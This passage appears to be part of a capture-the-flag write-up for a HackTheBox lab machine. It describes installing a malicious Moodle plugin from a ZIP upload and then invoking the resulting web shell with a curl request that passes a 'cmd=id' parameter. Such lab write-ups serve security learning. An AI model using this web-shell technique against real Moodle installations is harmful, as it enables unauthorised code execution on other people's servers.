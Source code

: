 ![alt text](images/image-61.png)

We install the plugin by pressing **Upload this file** > **Install plugin from the ZIP file**.

![alt text](images/image-62.png)

The plugin is successfully installed and we can now execute arbitrary code on the system.

```bash
curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

![alt text](images/image-63.png)
